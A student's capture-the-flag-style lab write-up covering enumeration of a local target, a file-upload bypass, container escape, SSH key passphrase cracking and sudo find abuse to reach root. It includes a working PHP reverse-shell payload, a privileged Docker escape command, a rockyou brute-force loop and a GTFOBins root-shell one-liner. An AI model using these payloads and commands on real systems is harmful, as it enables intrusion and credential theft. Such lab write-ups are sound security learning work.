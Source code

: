 # Challange lab CSOa

**Author:** Michal Ľaš (xlasmi00)  
**Date:** 14.04.2025


## Enumeration (information gathering)

1. `namp -sV -p 2222,8000,8443 localhost` for gathering running services and their versions
	+ 2222/tcp open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
	+ 8000/tcp open  http     nginx 1.25.4
	+ 8443/tcp open  ssl/http nginx 1.25.4

2. ssh to port 2222 - `ssh -p 2222 localhost` faild with Permission denied (publickey)

3. _gobuster_ for finding directories, domains and common web stuff
	+ `gobuster dir -u http://localhost:8000 -w directory-list-2.3-big.txt -t 50`
	+ `gobuster vhost -u http://localhost:8000 -w subdomains-top1million-5000.txt`
	+ Nothing was found

4. _nikto_ web application scanning
	+ found allowed HTTP methods: HEAD, GET, POST, OPTIONS

5. Considering multiple sites on an Nginx web server
	+ checking SSL Certificate `nmap -p 8443 --script ssl-cert localhost`
	+ found that it is for hostname **montypythonquot.es**
	+ trying to access web site with hostname **montypythonquot.es**: `curl -H "Host: montypythonquot.es" http://localhost:8000`
	+ **found hidden site montypythonquot.es**

6. Discovering **montypythonquot.es**
	+ `/new` page with possibility of file upload
	+ `/quote/{1,2,3,4}` pages with quotes
	+ `/systeminfo` lot of information about the application architecture:
		- Dockerized stack: Web frontend _Nginx_, Backend _PHP/7.2.34_, DB _MySQL_
		- Application runs in `/var/python_www` on host
	+ `gobuster dir -u http://montypythonquot.es:8000 -w gobuster/directory-list-2.3-big.txt` found `/img`


## Service exploitation

I see two possible attacks at this point. The first is SQL injection, 
since the `/quote/<id>` page probably accesses the database. The second attack 
could be local file inclusion, for example of an image, since the `/new` page 
can upload images that are then available in `/img/<image_name>`.

### Local file inclusion leading to reverse shell

First I tried to upload a `.php` file which I renamed to `.jpg`. 
The code did upload, but I couldn't get it to run in any way. As a second approach, 
I chose to upload the `.php` code, send a request, which failed at first, 
then I modified the **Content Type** header to `image/png`and managed to run this file.

I then decided to create a reverse shell so that I could more easily explore the server. 
I uploaded the following code and ran `netcat` for listening on my side (I also tried a bash variant, 
but that didn't work for me):

```php
<?php
$ip = $_GET['rhost'];
echo "Target RHOST: $ip\n";
$port = 12345;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', [
  0 => $sock,
  1 => $sock,
  2 => $sock
], $pipes);
?> 
```

This way I got a reverse shell.

### Container escape

I have discovered that I am in a container, so the next step will be to 
escape from that container (it would be weird if I could just get **root** privileges 
that easily).

There are more approaches to escape from the container, but it was possible to use 
_Docker_ in the container, so I tried to use a command that would give me access to 
the _root_ directory of the hosting device in the `/mnt` folder of the container:

`docker run -i --rm --privileged --userns=host -v /home:/mnt alpine sh`

That way I could access the folders on the server outside the container. This method 
has been described on [this](https://gtfobins.github.io/gtfobins/docker/) web page.
I verified this by looking it up in the `/etc/os-release` file that it showed me:
_Ubuntu 22.04.4 LTS (Jammy Jellyfish)_.


## Privilege escalation

I then decided to search in the folders I had mounted. I found the user **arthur**, 
who had **sudo** privileges assigned to the _find_ command (`find_holy_grail.sh`). However, 
I could not abuse this one yet because the script, had rights only for user **arthur**.

However, arthur also had a `.tar.gz` with a backup of his RSA private key. I could access 
this file, but the private key itself was protected with a passphrase.

`mkdir /tmp/extract`  
`tar -xvzf arthur_camelot_backup.tar.gz -C /tmp/extract`  
`cat /tmp/extract/.ssh/id_rsa`

To find the passphrase, I have created this script using `openssl` (inspiration from [this](https://www.youtube.com/watch?v=u4e6aPcpI7Q) tutorial). 

```bash
while IFS= read -r pass; do
  if openssl rsa -in arthur_key -out out.key -passin pass:"$pass" 2>/dev/null; then
    echo "Passphrase found: $pass"
    break
  fi
done < rockyou.txt # common password list

```

I found that the password was **holygrail** and I was able to log in using **ssh** via port 2222 as user **arthur**.

Then I abused the **find_holy_grail.sh** script with the **find** command, to which user arthur had 
sudo privileges. I modified the script in the following way, inspiration from [here](https://gtfobins.github.io/gtfobins/find/):

`sudo find / -exec /bin/bash \;`

and after running it, I got a shell with **root privileges**.

